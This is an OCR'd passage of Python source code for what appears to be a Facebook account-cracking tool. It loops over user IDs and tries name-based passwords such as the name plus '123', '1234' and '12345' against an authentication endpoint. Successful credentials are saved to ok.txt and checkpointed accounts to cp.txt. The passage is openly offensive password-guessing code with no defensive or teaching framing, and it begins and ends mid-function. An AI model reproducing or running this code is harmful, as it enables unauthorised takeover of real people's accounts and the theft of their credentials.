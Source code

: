 	else:
		print("")
		print("\033[1;91mPlease Select A Valid Option").center(50)
		print("")
		time.sleep(3)
		crack_select()
	print("\033[1;92m[!] Total User IDs :\033[1;92m "+str(len(id)))
	time.sleep(0.05)
	print("\033[1;92m[!]\033[1;95m Cracking Start...")
	time.sleep(0.05)
	print("\033[1;92m[!]\033[1;97m Plz wait clone account will be appear here\033[1;0m")
	time.sleep(0.05)
	print(50*"-")
 
			
	def main(arg):
		user=arg
		uid,name=user.split("|")
		try:
			pass1 = name+"123"
			data = requests.get("http://localhost:5000/auth?id="+uid+"&pass="+pass1, headers=header).text
			q = json.loads(data)
			if "loc" in q:
				print("\033[1;92m[Successful] \033[1;96m"+uid+" | "+pass1+"\033[0;97m")
				ok = open("ok.txt","a")
				ok.write(uid+" | "+pass1+"\n")
				ok.close()
				oks.append(uid+pass1)
			else:
				if "www.facebook.com" in q["error"]:
					print("\033[1;91m[CheckPoint] "+uid+" | "+pass1)
					cp = open("cp.txt","a")
					cp.write(uid+" | "+pass1+"\n")
					cp.close()
					cps.append(uid+pass1)
				else:
					pass2 = name+"1234"
					data = requests.get("http://localhost:5000/auth?id="+uid+"&pass="+pass2, headers=header).text
					q = json.loads(data)
					if "loc" in q:
						print("\033[1;92m[Successful] \033[1;96m"+uid+" | "+pass2+"\033[0;97m")
						ok = open("ok.txt","a")
						ok.write(uid+" | "+pass2+"\n")
						ok.close()
						oks.append(uid+pass2)
					else:
						if "www.facebook.com" in q["error"]:
							print("\033[1;91m[CheckPoint] "+uid+" | "+pass2)
							cp = open("cp.txt","a")
							cp.write(uid+" | "+pass2+"\n")
							cp.close()
							cps.append(uid+pass2)
						else:
							pass3 = name+"12345"
							data = requests.get("http://localhost:5000/auth?id="+uid+"&pass="+pass3, headers=header).text
							q = json.loads(data)
							if "loc" in q:
								print("\033[1;92m[Successful] \033[1;96m"+uid+" | "+pass3+"\033[0;97m")
								ok = open("ok.txt","a")
								ok.write(uid+" | "+pass3+"\n")
								ok.close()
								oks.append(uid+pass3)
							else:
								if "www.facebook.com" in q["error"]: